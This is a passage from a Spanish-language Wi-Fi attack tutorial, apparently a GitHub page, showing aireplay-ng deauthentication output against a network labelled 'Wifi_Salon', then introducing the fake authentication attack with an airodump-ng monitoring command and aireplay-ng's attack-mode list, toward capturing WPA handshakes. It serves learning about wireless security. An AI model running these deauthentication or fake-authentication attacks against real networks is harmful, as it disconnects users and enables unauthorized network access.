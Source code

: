 ```bash
15:06:45  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
15:06:46  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
15:06:46  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
15:06:47  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
15:06:47  Sending DeAuth (code 7) to broadcast -- BSSID: [MAC:Wi:Fi:Sa:lon:XD]
```
Observa que también desconecta los dispositivos, pero yo recomiendo la primer forma, porque nos muestra si los paquetes funcionaron o no.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Falsa" style="text-align:center;">Ataque de Falsa Autenticación</h1>
</div>
<br>


¿De que va este ataque?

| **Ataque de Falsa Autenticación** |
|:-----------:|
| *El ataque de falsa autenticación, permite realizar los dos tipos de autenticación WEP (abierta u “Open System” y compartida o “Shared Key”) y asociarse con el punto de acceso (AP). Esto es muy útil cuando necesitamos una dirección MAC asociada para usarla con alguno de los ataques de aireplay-ng y no hay ningún cliente asociado.* |

<br>

Se debe tener en cuenta que el **ataque de falsa autenticación NO genera ningún paquete ARP**.

De momento, este ataque no nos sirve para la obtención del **Handshake**, pero lo podremos ocupar después para redes web así que no esta demás incluirlo.

Realiza un monitoreo, solo indica el **essid** para que el monitoreo no se expanda tanto, no es necesario que conectes un dispositivo.
```bash
airodump-ng --essid Wifi_Salon wlan0
CH 10 ][ Elapsed: 2 mins ][ 2023-05-11 15:55                                                                                                                                                                                                                                 
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                                                                              
MAC:Wi:Fi:Sa:lon:XD -58      260       43    0  11  130   WPA2 CCMP   PSK  Wifi_Salon                                                                                                                                                                                     
 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
(not associated)   **:**:**:**:**:**  -94    0 - 1      0        1                 
```

Ahora, veamos cuál es el ataque que vamos a usar:
```bash
...
Attack modes (numbers can still be used):

      --deauth      count : deauthenticate 1 or all stations (-0)
      --fakeauth    delay : fake authentication with AP (-1)
      --interactive       : interactive frame selection (-2)
      --arpreplay         : standard ARP-request replay (-3)
      --chopchop          : decrypt/chopchop WEP packet (-4)
      --fragment          : generates valid keystream   (-5)
      --caffe-latte       : query a client for new IVs  (-6)
      --cfrag             : fragments against a client  (-7)
      --migmode           : attacks WPA migration mode  (-8)
      --test              : tests injection and quality (-9)

      --help              : Displays this usage screen
```
